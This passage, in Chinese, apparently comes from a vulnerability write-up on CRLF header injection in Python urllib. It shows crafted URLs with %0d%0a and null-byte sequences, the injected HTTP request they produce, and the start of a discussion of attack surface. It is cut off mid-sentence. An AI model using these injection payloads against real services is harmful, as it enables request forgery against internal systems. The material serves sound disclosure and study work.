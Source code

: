 然后我们使用恶意构造的地址

```
./fetch3.py http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo

```

返回的HTTP头就是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
X-injected: header
x-leftover: :12345
Connection: close

```

然后攻击者可以任意注入HTTP头了。

这个攻击在使用域名的时候也可以进行，但是要插入一个空字节才能进行DNS查询。比如说，下面的URL进行解析会失败的。

```
http://localhost%0d%0ax-bar:%20:12345/foo

```

但是下面的URL是可以正常解析并访问到127.0.0.1的

```
http://localhost%00%0d%0ax-bar:%20:12345/foo

```

要注意的是HTTP重定向也可以利用这个漏洞，如果攻击者提供的URL是一个恶意的web server，然后服务器可以重定向到其他的URL也可以导致协议注入。

0x02 攻击面
=====

下面会讨论几个可能导致严重后果的攻击方式。当然还远远不够，攻击都需要特定的场景，有很多不同的方法可以利用，还不能确定有没有其他的利用方式。

HTTP头注入和请求伪造
------------

这个攻击方式由来已久了，但是和[以前的请求伪造](http://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf)不同的是，这里仅仅是可以注入额外的HTTP头和请求方法。当然当前场景下，能够提交不同的HTTP方法和请求数据就已经很有用了，比如说原始的请求是这样的

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: close

```

攻击者可以注入一个额外的完整的HTTP请求头
